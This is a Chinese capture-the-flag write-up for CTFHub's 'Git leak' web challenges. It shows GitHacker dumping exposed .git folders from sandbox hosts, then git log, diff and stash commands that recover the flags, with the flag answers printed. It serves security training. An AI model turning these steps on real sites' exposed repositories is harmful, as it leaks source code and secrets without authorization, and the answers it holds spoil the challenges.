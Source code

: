```yaml
---
title: Web - Git 泄露
description: CTFHub | 技能树 | Web
---
```


## 题目

当前大量开发人员使用 git 进行版本控制，对站点自动部署。如果配置不当,可能会将 .git 文件夹直接部署到线上环境。这就引起了 git 泄露漏洞。

## Log

- 使用工具 [WangYihang/GitHacker](https://github.com/WangYihang/GitHacker) 检出 Git 仓库
    ```bash
    $ githacker --url http://challenge-6c68a91f29757be4.sandbox.ctfhub.com:10080/.git/ --folder result
    ```
- 进入检出目录，查看日志信息，当前位于`flag`已经删除的版本
    ```bash
    $ git log
    commit 331d0cdbf0d55ada0ee114851b846705bf19fd99 (HEAD -> master)
    Author: CTFHub <sandbox@ctfhub.com>
    Date:   Thu May 27 06:27:19 2021 +0000

        remove flag

    commit 3db6be0b17e9d3141cfee4d7593d0d1a56bc1e82
    Author: CTFHub <sandbox@ctfhub.com>
    Date:   Thu May 27 06:27:19 2021 +0000

        add flag

    commit 3891bbce49688c80cd02d6bc91953055d249c697
    Author: CTFHub <sandbox@ctfhub.com>
    Date:   Thu May 27 06:27:19 2021 +0000

        init
    ```
- 与`add flag`版本进行比较，差异信息即为 Flag
    ```bash
    $ git diff 3db6be0b17e9d3141cfee4d7593d0d1a56bc1e82
    diff --git a/1380320821329.txt b/1380320821329.txt
    deleted file mode 100644
    index 7bbea29..0000000
    --- a/1380320821329.txt
    +++ /dev/null
    @@ -1 +0,0 @@
    -ctfhub{9b8fffa8e969d3950e8e98ba}
    ```

## Stash

- 同样地，检出仓库并进入仓库目录
    ```bash
    $ githacker --url http://challenge-942122132ef0c89f.sandbox.ctfhub.com:10080/.git --folder result
    $ cd result/
    ```
- `git stash` 保存本地未提交的修改，并将工作目录恢复到当前 `HEAD` commit 的版本，便于在当前分支修改未提交的情况下切换分支
- 使用 `git stash apply` 恢复，即可获得 Flag 文件
    ```bash
    $ ls
    50x.html  index.html
    $ git stash apply
    冲突（修改/删除）：291731707232651.txt 在 Updated upstream 中被删除，在 Stashed changes 中被 修改。291731707232651.txt 的 Stashed changes 版本被保留。
    $ ls
    291731707232651.txt  50x.html  index.html
    $ cat 291731707232651.txt 
    ctfhub{bb407b064154f284de35ad5c}
    ```

## Index

- `GitHacker`检出目录后就看到 Flag 文件了（咦 :0）
    ```bash
    $ githacker --url http://challenge-4c0f5006f79ca499.sandbox.ctfhub.com:10080/.git --folder result
    $ cd result/
    $ ls
    2084027691726.txt  50x.html  index.html
    $ cat 2084027691726.txt 
    ctfhub{c4bdf1723804493c9d8d61b3}
    ```
- Git index 作为工作目录和仓库之间的暂存区域，可存储一组修改一并提交